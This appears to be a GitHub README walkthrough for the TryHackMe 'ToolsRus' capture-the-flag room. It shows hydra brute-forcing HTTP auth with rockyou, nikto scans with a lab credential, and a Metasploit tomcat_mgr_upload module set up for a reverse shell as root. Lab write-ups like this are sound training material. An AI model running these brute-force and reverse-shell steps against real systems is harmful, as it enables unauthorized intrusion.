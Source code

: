 # ToolsRus CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **ToolsRus** CTF challenge on [TryHackMe](https://tryhackme.com/room/toolsrus). 
---

![scn](imgs/scn.png "scn")

after scannig we see open ports 22, 80, 1234, 8009

![ferox](imgs/ferox.png "ferox")

after using feroxbuster we found `/guidelines` and `/protected`

ny going to /guidelines we found some username `bob` 

![user](imgs/user.png "user")

we see http-get authentication on `/protected`

we cam use hydra to brute-force login as bob

```
hydra -l bob -P /usr/share/wordlists/rockyou.txt http-get://$IP/protected
```

![hydra](imgs/hydra.png "hydra")

after login we see information about port migration 

![port](imgs/port.png "port")

on port 1234 we see apache tomcat page



we can go to `/manager/html` and try to log with the same credentials as before, and it works we can see admin panel

![tom](imgs/tom.png "tom")

tomcat version is `Apache Tomcat/7.0.88`

now we are asked to run nikto scan, we can use this command


```
nikto -h http://$IP:1234/manager/html -id bob:bubbles
```

![n1](imgs/n1.png "n1")

```
nikto -h http://$IP:80
```

![n2](imgs/n2.png "n2")

the server version is `Apache/2.4.18`

we know that this is outdated tomcat version and we have access to /manager so we can try to use metasploit to gain reverse shell

![msf1](imgs/msf1.png "msf1")

```
$ msfconsole
msf6> use exploit/multi/http/tomcat_mgr_upload
msf6> set HttpPassword b...[REDACTED]...
msf6> set HttpUsername bob
msf6> set RPORT 1234
msf6> set RHOSTS 10.10.159.182
msf6> set LHOST 10.14.X.X
msf6> run
msf6> shell
```

wow we gained access as root 

![msf2](imgs/msf2.png "msf2")

we got root flag

![root](imgs/root.png "root")

# MACHINE PWNED
